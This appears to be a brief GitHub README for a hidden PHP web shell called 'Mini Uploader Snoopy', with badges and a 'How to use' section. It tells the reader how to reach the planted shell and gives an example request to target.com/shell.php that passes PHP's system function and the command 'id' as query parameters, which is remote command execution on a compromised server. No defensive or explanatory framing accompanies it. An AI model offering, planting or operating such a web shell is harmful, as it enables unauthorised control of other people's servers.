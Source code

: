 # Mini Uploader
[![Version](https://img.shields.io/badge/Mini_Uploader-PHP-blue.svg)]()
[![Stage](https://img.shields.io/badge/Based-PHP-blue.svg)]()

Hidden Mini Uploader Snoopy<br>

---
## How to use 
- You can access your shell: php?_=system&__=id<br>
- ```Example: target.com/shell.php?_=system&__=id```
